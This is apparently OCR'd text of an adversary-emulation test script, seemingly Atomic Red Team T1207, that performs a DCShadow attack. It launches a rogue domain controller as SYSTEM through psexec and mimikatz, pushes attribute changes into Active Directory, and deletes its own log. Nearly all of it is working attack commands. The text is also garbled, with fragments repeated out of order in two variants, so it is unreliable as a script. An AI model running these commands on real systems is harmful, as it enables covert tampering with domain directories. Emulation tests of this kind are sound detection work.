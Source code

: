 # wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
* # starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:9999`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
* # starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

